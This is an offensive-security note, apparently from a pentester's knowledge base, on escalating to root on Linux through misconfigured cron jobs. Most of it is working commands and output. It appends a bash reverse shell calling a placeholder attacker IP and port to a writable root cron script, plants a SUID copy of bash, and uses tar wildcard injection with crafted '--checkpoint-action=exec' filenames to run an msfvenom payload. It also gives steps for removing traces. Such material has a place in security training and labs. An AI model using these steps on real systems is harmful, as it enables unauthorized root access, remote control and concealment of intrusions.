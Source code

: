 # Unix Shell

## 01 - File Permissions

After performing the Enumeration and Discovery phase for [[07 - Tactics & Techniques & Procedures (TTPs) Phases/F - Post Exploitation/0x00 - Enumeration and Discovery/Linux/Host/0xC - Scheduled Tasks/Cron Job/Manual/Living off the Land|Cron Jobs]] and [[07 - Tactics & Techniques & Procedures (TTPs) Phases/F - Post Exploitation/0x00 - Enumeration and Discovery/Linux/Host/0xF - Files and Directories/Living off the Land|Writable Folders]].

```
$ ls -l /usr/local/bin/overwrite.sh
-rwxr--rw- 1 root staff 40 May 13  2017 /usr/local/bin/overwrite.sh
$ echo "bash -i >& /dev/tcp/<attacker_ip>/<LPORT> 0>&1" >> /usr/local/bin/overwrite.sh
```

You can find more [[07 - Tactics & Techniques & Procedures (TTPs) Phases/C - Initial Access/0x01 - Weaponization/0xB - Callback Shells/One-Liners/Linux/Reverse Shells/Bash|bash one-liners]] regarding with this section.

## 02 - PATH Environment Variable

Another way we can utilize this vulnerability is way using the same privilege escalation technique for [[07 - Tactics & Techniques & Procedures (TTPs) Phases/F - Post Exploitation/0x02 - Privilege Escalation/Linux/Local Privilege Escalation/SUID and SGID/README|README]].

We create a new shell script to copy the `/bin/bash` binary and change file permissions with a sticky-bit SUID and SGID.

```
$ cp /usr/local/bin/overwrite.sh /tmp/overwrite.sh.bak
$ cat overwrite.sh
#!/bin/bash  
  
cp /bin/bash /tmp/cronjob  
chmod +xs /tmp/cronjob
$ chmod +x overwrite.sh
$ ls -lah /tmp/cronjob
-rwsr-sr-x 1 root root 905K Jan 19 15:28 /tmp/cronjob
$ /tmp/cronjob -p
cronjob-4.1# whoami
root
cronjob-4.1# exit
exit
```

## 03 - Wildcards

### 3.1 - Detect

One of the few mistakes due to negligence for not taking into account when backing things up with root privileges.

```
$ cat /usr/local/bin/compress.sh
#!/bin/sh
cd /home/user
tar czf /tmp/backup.tar.gz *
```

Notice the wildcard that runs with a character `*` in the home directory. If we search about the GTFOBins website to exploit the sudo privileges for the archiving program called [tar](https://gtfobins.github.io/gtfobins/tar/).

### 3.2 - Exploit

Generate a payload with msfvenom and look to the [[Global References MSFVenom|MSFVenom Regular Reverse Shell Payloads]] section then transfer the payload to the compromised machine and look more into **File Transfers and Data Exfiltration** section.

```
$ chmod +x shell.elf
$ touch /home/user/--checkpoint=1
$ touch /home/user/--checkpoint-action=exec=shell.elf
$ ls -lh
total 0
-rw-r--r-- 1 user user    0 Jan 19 15:46 --checkpoint=1
-rw-r--r-- 1 user user    0 Jan 19 15:46 --checkpoint-action=exec=shell.elf
```

### 3.3 - Cleanup

Launch a reverse shell handler like netcat, msfconsole or any handler of your choosing. Once you've received a connection. Cleanup the trace you've left.

```
$ rm /home/user/shell.elf
$ rm /home/user/--checkpoint=1
$ rm /home/user/--checkpoint-action\=exec\=shell.elf
```

---
## References

- [Linux Privilege Escalation by Exploiting Cron Jobs](https://www.hackingarticles.in/linux-privilege-escalation-by-exploiting-cron-jobs/)

- [Crontab.guru](https://crontab.guru)